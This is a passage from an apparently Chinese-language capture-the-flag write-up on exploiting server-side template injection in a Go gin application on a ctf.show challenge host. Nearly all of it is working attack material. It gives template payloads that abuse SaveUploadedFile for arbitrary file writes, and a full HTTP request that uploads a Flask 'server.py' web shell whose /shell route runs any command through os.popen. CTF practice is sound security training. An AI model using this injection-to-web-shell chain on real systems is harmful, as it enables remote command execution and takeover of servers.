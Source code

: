 直接cat即可

**payload 2**

```plain
{{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}
#或者
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```

最终payload

```plain
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=自己ip; filename="server.py"
Content-Type: text/x-python

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

